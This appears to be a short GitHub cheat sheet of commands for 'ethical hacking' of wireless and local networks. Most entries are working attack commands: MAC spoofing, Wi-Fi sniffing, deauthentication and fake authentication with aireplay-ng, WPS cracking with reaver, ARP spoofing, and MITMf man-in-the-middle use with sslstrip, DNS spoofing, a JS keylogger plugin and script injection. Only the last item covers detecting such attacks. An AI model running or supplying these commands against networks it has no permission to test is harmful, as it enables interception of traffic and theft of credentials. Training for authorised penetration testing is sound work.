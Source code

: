 This is a cheatsheet for commands and tools commonly used for ethical hacking.

1) Change Mac      : a) ifconfig ath0 down b) ifconfig ath0 hw ether <new_mac> c) ifconfig ath0 up

2) Sniffing Packets: a) airodump-ng wlan0 or b) airodump-ng --bssid <ap_mac> --channel <channel> --write <out_file> wlan0

3) Deauth          : a)  aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
4) Fake Auth       : a)  aireplay-ng -1 0 -a 00:14:6C:7E:40:80 -h 00:09:5B:EC:EE:F2 ath0

5) Cracking WEP/WPA: Use of aircrack-ng depends on encryption. WPS in WPA -- a) wash -i wlan0 b) reaver -i wlan0 -b <> -vvv 

6) Reconnaissance  : a) netdiscover -r 10.0.2.1/24 b) nmap / zenmap(GUI)

MITM:
7) ARP Spoof       : a) arpspoof -i ath0 -t 10.0.2.9 10.0.2.1 b) arpspoof -i ath0 -t 10.0.2.1 10.0.2.9 c) echo "1" > /proc/sys/net/ipv4/ip_forwarding

8) MITMF           : a) mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.9 -i ath0   --- this command is arp spoof + sniffing. Contains many other plugins such as --screen, --jskeylogger

9) HTTPS           : Use sslstrip to downgrade https to http. MITMF commands deploy it.

10) DNS Spoof      : a) Add dns entry to /etc/mitmf/mitmf.conf b) mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.9 -i ath0 --dns 
 
11) Inject code    : a) Use mitmf with --inject --js-payload 'alert("test");'

12) Fake AP MITM   : mana-toolkit

13) Detect MITM Att: a) Use xarp (both windows and linux based options) b) Use wireshark. ->Analyse->Expert info. c) Configure gateway ip-mac to be static instead of dynamic.
